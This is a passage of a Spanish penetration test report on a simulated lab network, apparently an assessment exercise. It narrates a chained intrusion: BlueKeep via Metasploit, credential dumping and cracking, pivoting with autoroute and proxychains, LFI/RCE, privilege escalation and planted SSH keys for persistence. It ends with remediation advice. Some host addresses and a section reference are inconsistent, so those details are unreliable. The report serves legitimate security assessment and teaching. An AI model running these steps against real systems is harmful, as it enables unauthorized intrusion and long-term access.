| PC5-1   | PC5 (Corrosion)  | Tomcat Backup Expuesto + Manager RCE                     | RCE         | Crítica  | Sí        | N/A            |
| PC5-2   | PC5 (Corrosion)  | Exposición Hashes `/etc/shadow` vía `look`               | InfoExpo    | Media    | Sí        | N/A            |
| PC5-3   | PC5 (Corrosion)  | Credenciales Débiles Usuario `randy` (Crack + SSH)       | WeakCreds   | Alta     | Sí        | CWE-521        |
| PC5-4   | PC5 (Corrosion)  | Escalada Privilegios `sudo` Python Library Hijack        | PrivEsc     | Crítica  | Sí        | N/A            |

---

## 9. Narrativa del Ataque

Esta sección describe la secuencia cronológica del ataque.

### **9.1 Acceso Inicial Externo (PC1)**

La evaluación comenzó identificando el host PC1 192.168.1.108 expuesto a internet. Un escaneo de Nmap reveló el puerto 3389 (RDP) abierto. Utilizando Metasploit, se confirmó que el sistema era vulnerable a BlueKeep (CVE-2019-0708, detallado en Sección 6, Vuln PC1-1). Se lanzó el exploit `exploit/windows/rdp/cve_2019_0708_bluekeep_rce` con un payload Meterpreter `reverse_tcp`.

*   **Resultado:** Se obtuvo una sesión Meterpreter con privilegios `NT AUTHORITY\SYSTEM` en PC1.
  

    

### **9.2 Persistencia y Pivoting Inicial (Desde PC1)**

Con acceso SYSTEM en PC1, se procedió a establecer persistencia y preparar el acceso a redes internas.

1.  **Persistencia:** se configuró y ejecutó el módulo exploit/windows/local/persistence en Metasploit, estableciendo la persistencia a nivel de sistema. Esto hace que se abra una sesión Meterpreter automáticamente tras cada reinicio del equipo.




2. **Desencriptación de contraseñas**:

Se utilizó el comando **hashdump** del **modulo kiwi** para extraer los hashes de todos los usuarios locales del sistema Windows comprometido.



Los hashes obtenidos se guardaron en un archivo y se crackearon con John the Ripper utilizando el diccionario rockyou.txt y el formato NTLM, logrando recuperar la contraseña del usuario "usuario".


    
2.  **Reconocimiento Interno:** Se ejecutaron comandos como `ipconfig`, `arp -a`, y `route print` desde la sesión Meterpreter para identificar las interfaces de red internas de PC1 y las redes conectadas. Se descubrió la red 10.10.10.0/24.
    
3.  **Pivoting :** Se configuró una ruta pivot en Metasploit usando el comando `autoroute -s 10.10.10.0/24` para dirigir el tráfico destinado a esa red a través de la sesión Meterpreter en PC1. Se utilizó el módulo `socks_proxy` de Metasploit para crear un proxy SOCKS en la máquina del atacante, permitiendo el uso de herramientas externas (Nmap, Gobuster, etc.) a través del pivote mediante `proxychains`.

    


### **9.3 Compromiso de la Primera Red Interna (PC2 - Symfonos)**

Utilizando el pivote establecido, se escaneó la red 10.10.10.0/24.

1.  **Descubrimiento PC2:** Se identificó el host PC2 (Symfonos) en 10.10.20.4 El escaneo detallado (Nmap vía `proxychains`) reveló servicios Samba, SMTP y HTTP (WordPress).
2.  **Explotación PC2 (Vuln PC2-1):** Se explotó la vulnerabilidad LFI/RCE en el plugin Mail Masta, combinando la inclusión del log de correo (`/var/mail/helios`) con la inyección de código PHP vía SMTP, como se detalla en Sección 6 (Vuln PC2-1).
    *   **Resultado:** Shell inicial como usuario `helios`.
      
        
        
3.  **Escalada PC2 (Vuln PC2-2):** Se explotó el binario SUID `/opt/statuscheck` mediante PATH Hijacking (Sección 6, Vuln PC2-2).
    *   **Resultado:** Shell como usuario `root`.
      
        
        
4.  **Persistencia PC2 :** Como `root`, se añadió la clave pública SSH del atacante a `/root/.ssh/authorized_keys` para permitir acceso directo futuro.
   
    


### ***9.4 Pivoting Secundario y Compromiso Red 2 (PC3 - Durian)**

Desde el acceso `root` en PC2, se exploraron otras redes.

1.  **Reconocimiento y Pivoting:** Se identificó la red 10.10.20.0/24 accesible desde PC2. Se mantuvo o reconfiguró el pivote (Proxychains/Metasploit) para incluir esta nueva red.
2.  **Descubrimiento PC3:** Se escaneó 10.10.20.0/24, identificando PC3 (Durian) en 10.10.20.3 con un servidor Apache en el puerto 80.
3.  **Explotación PC3 (Vuln PC3-1):** Se explotó la vulnerabilidad LFI (`/proc/self/fd/8`) y RCE vía Header Injection en `/cgi-data/getImage.php` (Sección 6, Vuln PC3-1).
    *   **Resultado:** Shell inicial como `www-data`.
      
        
        
4.  **Escalada PC3 (Vuln PC3-2):** Se explotaron las capacidades Linux del binario `gdb` (Sección 6, Vuln PC3-2).
    *   **Resultado:** Shell como `root`.
      
        
        
5.  **Persistencia PC3 :** Se instalo una clave sshh en authorized_keys permite acceso persistente.
    

    Se logra entrar sin autorización
    


### **9.5 Compromiso Red 3 (PC4 - Solstice y PC5 - Corrosion)**

Continuando a través de los pivotes establecidos.

1.  **Reconocimiento Red 3:** Se identificó la red 10.10.30.0/24 (asumida) y se escaneó.
2.  **Compromiso PC4 (Solstice - 10.10.20.3):**
    *   Se explotó la LFI/RCE en el puerto 8593 (Vuln PC4-1) para obtener shell `www-data`.
    *   Se escaló a `root` explotando el servicio web local y el archivo PHP modificable (Vuln PC4-2).
    *   Se estableció persistencia SSH (como en write-up `solstice_explicacion.md`).
      
    
    
    
    
4.  **Compromiso PC5 (Corrosion - 10.10.30.5):**
    *   Se encontró y explotó el backup expuesto de Tomcat para obtener shell `tomcat` vía manager (Vuln PC5-1).
    *   Se reutilizó contraseña para acceder como `jaye`. Se usó la herramienta `look` para dumpear `/etc/shadow` (Vuln PC5-2).
    *   Se crackeó el hash de `randy` (`07051*****`) con John (Vuln PC5-3).
    *   Se accedió como `randy` vía SSH (a través de pivote).
    *   Se escaló a `root` explotando la configuración de `sudo` y el secuestro de la librería `base64.py` (Vuln PC5-4).
    *   Se estableció persistencia SSH (como en write-up `PC_5.md`).
      
    
    
    
    
    


### **9.6 Establecimiento de Persistencia Adicional**

Se confirmó la instalación exitosa de mecanismos de persistencia en PC1 (Servicio Meterpreter), PC2 (Clave SSH root), PC3 (Cronjob root), PC4 (Clave SSH root) y PC5 (Clave SSH root), demostrando la capacidad de mantener el acceso a largo plazo.


---

## 10. Recomendaciones Generales de Seguridad

Además de las mitigaciones específicas para cada vulnerabilidad detalladas en la Sección 6, se proponen las siguientes recomendaciones generales:

1.  **Gestión frecuente de Parches:** Implementar un proceso automatizado para identificar y aplicar parches de seguridad en todos los sistemas operativos (Windows, Linux) y aplicaciones (WordPress, Tomcat, Apache, etc.). 
2.  **Hardening de Sistemas y Servicios:** Aplicar guías de configuración segura (CIS Benchmarks, STIGs) para sistemas operativos, servidores web, bases de datos y otros servicios. Deshabilitar servicios y protocolos innecesarios.
3.  **Principio de Mínimo Privilegio:** Revisar y ajustar permisos de usuarios, cuentas de servicio y aplicaciones. Evitar ejecutar servicios como root/SYSTEM siempre que sea posible. Configurar `sudo` de forma restrictiva. Eliminar permisos SUID/SGID y Capacidades Linux innecesarios. Asegurar permisos correctos en archivos de configuración y librerías.
4.  **Gestión de Contraseñas:** Implementar políticas de contraseñas robustas (longitud, complejidad, historial, no reutilización). Fomentar el uso de gestores de contraseñas. Realizar auditorías periódicas de fortaleza de contraseñas. Considerar MFA donde sea aplicable (SSH, RDP, aplicaciones críticas).
5.  **Segmentación y Control de Red:** Revisar y fortalecer las reglas de firewall entre segmentos de red para limitar el movimiento lateral. Restringir el acceso a puertos de administración (RDP, SSH, Tomcat Manager) solo desde IPs autorizadas.
6.  **Seguridad de Aplicaciones Web:** Realizar validación y saneamiento de todas las entradas del usuario para prevenir explotaciones de los atacantes. Evitar exponer información sensible o archivos de backup. Realizar análisis de seguridad de código y auditorías de aplicaciones web. Utilizar Web Application Firewalls (WAF).
7.  **Monitorización y Detección:** Implementar la recolección centralizada y el análisis de logs de seguridad (sistemas, aplicaciones, firewalls). Configurar alertas para actividades sospechosas (intentos de login fallidos, ejecución de comandos inusuales, conexiones desde IPs extrañas).
8.  **Eliminar Configuraciones Inseguras:** Auditar y corregir configuraciones por defecto inseguras, eliminar herramientas locales peligrosas (`look`), y revisar scripts personalizados en busca de vulnerabilidades.

---

## 11. Conclusión

La prueba de penetración realizada sobre el entorno simulado de CyberSecPro S.A. ha demostrado la existencia de múltiples vectores de ataque críticos que permitirían a un actor malicioso comprometer secuencialmente la infraestructura, desde el perímetro externo hasta los segmentos internos más sensibles, obteniendo control administrativo total y estableciendo persistencia.

Las vulnerabilidades explotadas abarcan desde sistemas operativos sin parches y configuraciones inseguras de servicios web hasta permisos incorrectos y credenciales débiles. Debida la gravedad das vulerabilidades y simplicidad de los métodos utilizados para comprometer la red de la organización se urge a aplicar las recomendaciónes de seguridad del apartado 9.

---
